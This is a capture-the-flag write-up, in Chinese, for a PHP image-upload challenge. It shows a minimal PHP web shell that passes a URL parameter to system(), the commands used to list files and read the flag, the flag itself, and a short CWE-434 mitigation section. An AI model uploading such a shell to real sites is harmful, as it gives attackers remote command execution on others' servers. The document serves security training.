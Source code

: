 # Image Uploader 1

Author: 孫逸平

Date: 2024-05-24

Link: https://lotuxctf.com/challenges#Image%20Uploader%201-49

## 題目說明

這不過是個圖片上傳網站，不會有多糟糕的

It's just a Image Uploader and it cannot be that bad.

http://lotuxctf.com:20008

Author：FlyDragon

## Write-up

1. 猜測是檔案上傳漏洞。
2. 上傳 RCE 程式 `shell.php`：
    ```php
    <?php
      if (isset($_GET['cmd'])) {
          system($_GET['cmd']);
      }
    ?>
    ```
3. 上傳後網頁顯示檔案路徑，打開後就可進行 RCE 攻擊了。
4. 利用 `?` 後方加入參數 `cmd=ls` 查看有哪些檔案。
5. 看到一個 `flag.txt` 檔。
6. 利用 cat 查看內容，在網址後方加入參數 `cmd=cat flag.txt`。
7. 就看到 flag 了：`LoTuX{b4by_w3bshe11#$%}`。

## 防護說明與建議

### 本題 CWE

* CWE-434: Unrestricted Upload of File with Dangerous Type

### 建議防護與修補

* 禁用危險的 PHP 函式，例如：`eval()`、`system()`、`exec()` 等

## 心得

這題沒有對任何規則進行限制，所以很輕鬆就解開了。
